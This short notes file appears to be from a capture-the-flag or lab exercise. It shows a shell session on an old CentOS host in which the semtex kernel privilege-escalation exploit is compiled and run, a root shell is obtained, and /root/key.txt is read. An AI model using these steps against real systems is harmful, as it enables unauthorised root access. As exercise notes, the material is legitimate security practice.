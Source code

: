 # notes

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex
/usr/bin/gcc -O2 semtex.c -o semtex
bash-4.1$ chmod +x semtex
chmod +x semtex
bash-4.1$ ./semtex
./semtex
2.6.37-3.x x86_64
sd@fucksheep.org 2010
-sh-4.1# cat /root/key.txt
